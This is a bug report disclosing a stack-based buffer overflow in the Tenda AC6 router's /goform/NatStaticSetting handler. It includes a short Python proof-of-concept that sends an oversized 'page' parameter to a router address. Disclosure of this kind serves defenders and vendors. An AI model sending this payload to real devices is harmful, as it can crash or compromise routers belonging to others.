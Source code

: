 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/NatStaticSetting`. When `page` is specified with excessive data, the buffer overflow occurs during `sprintf`.

![alt text](image.png)
## poc
![alt text](image-1.png)
![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'
send_payload("http://10.10.10.1/goform/NatStaticSetting", payload)
```

